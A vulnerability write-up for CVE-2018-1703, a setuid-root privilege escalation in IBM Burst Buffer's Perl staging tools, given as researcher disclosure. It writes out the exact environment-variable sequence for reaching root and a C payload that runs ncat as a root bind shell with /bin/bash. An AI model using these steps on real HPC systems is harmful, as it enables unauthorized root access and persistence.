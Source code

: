 # CVE-2018-1703: Burst Buffer Setuid Root Escalation

## Overview

Debugging related binaries shipped with older versions of Burst Buffer software are susceptible to privilege escalation.  Burst Buffer is a type of buffer/cache that is available for the pre-staging (and post-staging) of data before and after a scientific job is placed on a compute node. Because simulations at scale are extremely fine-grained, scientific compute jobs will often wait for some time at the beginning of their code execution for data to stream into memory from fast scratch.  Burst Buffering is directed by system-level processes to pre-stage the next job's data onto compute node-local NVMe drives and reduce idle time spent on I/O at the beginning and end of compute jobs. Because this capability can be directed by system-level processes and the scheduler, it is of particular interest from an authentication and trust boundary perspective.

## Links

  - https://github.com/IBM/CAST
  - https://www-01.ibm.com/support/docview.wss?uid=ibm10734239
  - http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1703

## Tools and Background Knowledge

  * Linux Command Line Tools
  * find (for finding setuid root binaries!)
  * PERL (yuck)

## Writeup

The Burst Buffer package shipped with several tools related to the Burst Buffer ecosystem. Some of these were used early on in Burst Buffer development to emulate the Burst Buffer `bbproxy` before it was complete so that client side command line tooling could be developed.  These tools were installed by RPMs with the setuid bit set, meaning that users on the system can run these administrative tools and take advantage of any arbitrary code execution flaws within.  Here's an example of the vulnerable perl code that calls the user defined *$bbscript*.  &setupUserEnvrionment();

```
sub phase2
{
    $BADEXITRC = $BADNONRECOVEXITRC;
    &setupUserEnvironment();
    foreach $bbscript (@STGIN)
    {
        bpost("BB: Calling user stage-in script: $bbscript");
        $rc = cmd("$bbscript");
        bpost("BB: User stage-in script exited with $rc", …);
        failureCleanAndExit() if($rc != 0);
    }
}
```

### Diagram
A user logging into the login node can launch an interactive job on compute nodes.  After sshing to a compute node, the stagein_admin command was available to be run and would run user defined code in a context that could escalate to root.

```
                    ┌─────────────────┐   ┌─────────────────────────────────────────────────────────────────┐
                    │   Login Node    │   │                          Compute Node                           │
                    │                 │   │                                     ┌─────────────┐   ┌────────┐│
┌─────────────┐     │                 │   │                  ┌─────────────┐    │ bbtools.pm  │   │  User  ││
│   User @    │   ┌─┴─────┐  ┌──────┐ │ ┌─┴─────┐  ┌──────┐  │stagein_admin│  ┌─┴─────────────┴─┐ │Defined ││
│ Institution ├───▶ sshd  ├──▶ bash ├─┼─▶ sshd  ├──▶ bash ├──▶ (rwsr-xr-x) ├──▶stagein_admin.pl ├─▶  Code  ││
└─────────────┘   └─┬─────┘  └──────┘ │ └─┬─────┘  └──────┘  └─────────────┘  └─────────────────┘ └────────┘│
                    └─────────────────┘   └─────────────────────────────────────────────────────────────────┘
```

### Exploring PERL

One of the things that was nice about this vulnerability is that the perl source code that 'did the stuff' was actually readable (in the rwx sense). In the English sense, it did take a while to put together the appropriate environment variables necessary to hit a vulnerable code path.  Many references to isSetuid (such as this one:)

```
BEGIN
{   
    print "argv[0] = $ARGV[0]\n";
    if(isSetuid())
    {   
        unshift(@INC, '/opt/ibm/bb/scripts/');
    }
```

sprinkle the Perl scripts.  This seems to indicate that awareness of the *setuid==bad* concept, but as a codebase grows during development, it can be very difficult to cross all of the I-s and dot all of the T-s.
### Finding the right combo

After quite a bit of trial and error, tracing perl code and the way that enviornment variables were parsed, this was the magic sequence:

```
$ export LSF_STAGE_STORAGE_MINSIZE=1
$ export LSF_STAGE_JOBID=1337
$ export LSF_STAGE_USER='root'
$ export LSB_HOSTS='h41n07 h41n07'
$ export LSF_STAGE_USER_STAGE_IN=/path/to/shell/executable
```

`LSF_STAGE_STORAGE_MINSIZE` and `LSF_STAGE_JOBID` don't really matter in our case, but if are unset, will result in the perl code bombing. `LSF_STAGE_USER` is important to set as root, although perhaps other users could have been specified and code run as them.  That was not explored. `LSB_HOSTS` must be set to the active set of compute nodes the current job is running under.  Finally, `LSF_STAGE_USER_STAGE_IN` is the script/binary that the burst buffer daemon will use to stage data onto the compute node ahead of the job.  Passing in a binary that opens a listening socket, for instance, is something that we could explore...

### Building the payload

Initially, I used `touch` to demonstrate that my code was running in a privileged context, but the ultimate goal is persistence and a durable shell.  As such, I decided to build netcat for the ppc64le system, start a netcat listener on port 9999 that spawns shell when it's connected to, and then connect to it after running `stagein_admin`.

```
#include <unistd.h>
#include <stdlib.h>

int main( int argc, char **argv ) {

  setuid(0)
  execl("/gpfs/proj01/u01/ncat", "/gpfs/proj01/u01/ncat", "-l", "9999", "-e", "/bin/bash", (char *)NULL);

  return 0;

}
```


### Putting it all together

By configuring our environment *just right*, we can provide an executable to the `stagein_admin` command, which will happily run.  Because it does not take enough care to drop privs, we can use setuid(0) to regain them and own the system.

![Recorded exploitation of this Burst Buffer vulnerability](./media/setuid.gif)

### The fix

The fix for this is type of weakness is to only create and package setuid binaries when they aren strictly necessary.  Information about affected versions of Burst Buffer and the versions that fixed this issue can be found by following the links at the beginning of this writeup.

## Acknowledgements

This research used resources of the Oak Ridge Leadership Computing Facility at the Oak Ridge National Laboratory, which is supported by the Office of Science of the U.S. Department of Energy under Contract No. DE-AC05-00OR22725.
